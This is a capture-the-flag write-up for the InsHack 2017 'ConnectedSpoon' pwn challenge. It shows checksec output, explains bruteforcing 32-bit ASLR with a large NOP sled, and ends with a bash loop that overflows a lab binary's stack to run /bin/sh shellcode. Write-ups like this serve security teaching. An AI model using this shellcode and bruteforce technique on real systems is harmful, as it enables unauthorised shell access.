 ```yaml
---
title: "ConnectedSpoon | InsHack 2017"
categories: ["pwn"]
tags: ["stack overflow", "shellcode", "ASLR"]
Points: 150
Solves: 42
---
```


Who new bruteforcing ASLR on 32 bit was so easy!

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     ENABLED           (<- we CANNOT reliably know where the stack is)
```

## Solution
This is very similar to crazy-minitel, so I will assume you have read that [writeup](CrazyMinitel), and just focus on what's new: `ASLR`! One other change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger nop sled.

With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte `\xbf` never changed. So that's **8 bits** we don't need to guess.
 - We have a NOP SLED of around 2000 bytes, and, since `2^11 = 2048`, we can get another free **11 bits**.

This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average around **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```